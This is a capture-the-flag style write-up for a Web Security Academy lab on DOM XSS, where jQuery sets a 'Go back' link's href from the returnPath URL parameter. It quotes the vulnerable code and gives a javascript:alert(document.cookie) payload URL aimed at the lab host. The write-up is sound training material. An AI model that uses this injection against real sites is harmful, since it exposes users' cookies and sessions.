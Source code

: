 # Lab: DOM XSS in jQuery anchor href attribute sink using location.search source (APPRENTICE)

---

## 🎯 Mission Description  
This lab contains a DOM-based cross-site scripting vulnerability on the feedback page. It uses jQuery's `$()` function to locate an anchor element and updates its `href` attribute using unsanitized input from `location.search`.

---

## 🎯 Mission Objective  
Trigger an alert displaying `document.cookie` by exploiting the vulnerable "back" link.

---

## 🪜 Steps

1. Go to the feedback page:

   ```
   https://0a1300e3046afaee80d203a800f8009c.web-security-academy.net/feedback?returnPath=/
   ```

2. View the source code and find this jQuery block:

   ```javascript
   $(function() {
     $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
   });
   ```

   → This takes the `returnPath` parameter from the URL and sets it as the `href` attribute of the `#backLink` anchor.

3. Try a benign test like:

   ```
   ?returnPath=/profile
   ```

   This results in:

   ```html
   <a id="backLink" href="/profile">Go back</a>
   ```

   ✅ Confirms direct injection into `href`.

4. Try injecting a `javascript:` URL:

   ```
   ?returnPath=javascript:alert(document.cookie)
   ```

   Which becomes:

   ```html
   <a id="backLink" href="javascript:alert(document.cookie)">Go back</a>
   ```

5. Click the "Go back" link → 💥 Alert fires.

---

## 💣 Final Payload

```
https://0a1300e3046afaee80d203a800f8009c.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

---

## 📝 Notes  
- Vulnerable sink: `.attr("href", ...)`
- Input source: `location.search → returnPath`
- The sink blindly trusts input and allows `javascript:` URLs
- DOM XSS often abuses `javascript:` links when `href` attributes are set directly from unsanitized sources

---

**✅ Status: Solved**
